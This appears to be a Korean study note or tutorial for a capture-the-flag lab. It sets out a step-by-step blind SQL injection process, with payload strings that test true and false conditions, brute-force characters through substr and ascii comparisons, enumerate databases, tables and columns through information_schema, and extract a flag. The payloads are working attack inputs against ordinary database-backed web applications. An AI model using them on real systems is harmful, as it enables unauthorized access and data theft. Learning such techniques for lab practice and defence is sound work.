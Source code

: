 # Blind SQL Injection Process

### **Blind SQL Injection 공격 순서**

&#x20;

#### 1. SQL Injection Point 찾기

참과 거짓 조건을 통해 SQLi가 가능한지 여부를 체크한다.

&#x20;

normaltic' and ('1'='1') and '1' = '1\
normaltic' and ('1'='2') and '1' = '1

&#x20;

&#x20;

#### 2. Select 문구가 먹히는지 확인

normaltic' and ((select 'test')='test') and '1' = '1

&#x20;

&#x20;

#### 3. 공격 Format을 준비한다.

normaltic' and (<mark style="color:red;">❤</mark>) and '1' = '1

<mark style="color:red;">❤</mark> 부분에 조건을 넣을 수 있다.

&#x20;

&#x20;

#### 4. substr함수를 이용하여 한 글자씩 찾아낸다.

&#x20;

<mark style="color:red;">**substr()**</mark> : 글자를 잘라주는 함수

예시) 글자가 test 일 때,\
&#x20; substr('test',1,1) -> 't'\
&#x20; substr('test',1,2) -> 'te'\
&#x20; substr('test',2,1) -> 'e'

&#x20;

sebstr((<mark style="color:red;">❤</mark>),1,1)\
<mark style="color:red;">❤</mark> 에 SQL Select문을 넣는다.

sebstr((select 'test'),1,1) = 't'

&#x20;

normaltic' and (<mark style="color:red;">**substr**</mark>((select 'test'),1,1) = 't') and '1' = '1

&#x20;

&#x20;

#### 5. ascii 코드를 활용하여 한 글자씩 찾아낸다.

&#x20;

normaltic' and (<mark style="color:red;">**ascii**</mark>(substr((<mark style="color:red;">❤</mark>),1,1)) > 0) and '1' = '1

normaltic' and (<mark style="color:red;">**ascii**</mark>(substr((<mark style="background-color:red;">select 'normaltic'</mark>),1,1)) <mark style="color:red;">**> 70**</mark>) and '1' = '1

&#x20;

글자를 숫자로 대입이 가능한 **ascii 코드**를 활용한다.

업다운 게임 방식으로 빠르게 찾을 수 있다.

\
예시) 100 이하의 숫자 빠르게 찾기

50 > 75 > 87 > ...

&#x20;

ascii('a') = 97

&#x20;

<figure><img src="https://blog.kakaocdn.net/dn/wgqHj/btsE7plGoF0/WkFRERscu7wX04oJf5GCP0/img.png" alt=""><figcaption></figcaption></figure>

&#x20;

#### 6. DB 찾기 : <mark style="background-color:blue;">select database()</mark>

&#x20;

normaltic' and (ascii(substr((<mark style="color:red;">**select database()),1,1**</mark>)) > 70) and '1' = '1

&#x20;

&#x20;

#### 7. table 찾기

: <mark style="color:blue;">**select table\_name from information\_schema.tables where table\_schema = "DB이름" limit 0,1**</mark>

&#x20;

normaltic' and (ascii(substr((<mark style="color:red;">**select table\_name from information\_schema.tables where table\_schema = "DB이름" limit 0,1**</mark>)) > 70) and '1' = '1

&#x20;

&#x20;

#### 8. Column 찾기

: <mark style="color:blue;">**select column\_name from information\_schema.columns**</mark>\ <mark style="color:blue;">**where table\_name = '테이블이름' limit 0,1**</mark>

&#x20;

normaltic' and (ascii(substr((<mark style="color:red;">**select column\_name from information\_schema.columns**</mark>\ <mark style="color:red;">**where table\_name = '테이블이름' limit 0,1**</mark>)) > 70) and '1' = '1

&#x20;

&#x20;

#### 9. DATA 확인

\[추출식] : select flag from <mark style="color:red;">**flagTable**</mark> limit 0,1

\[대입] : normaltic' and (ascii(substr((select <mark style="color:red;">**flag**</mark> from <mark style="color:red;">**flagTable**</mark> limit 0,1),1,1)) > 0) and '1' = '1

&#x20;

Flag가 있는 **테이블 네임과 컬럼을 활용**하여 데이터 추출을 진행한다.

&#x20;

***

&#x20;

&#x20;

Blind SQL Injection이 처음이라면, 꼭 수동으로 풀어보자.

그 이후 Burp의 리피터 혹은 Python 등으로 자동화 구축해서 진행하자.
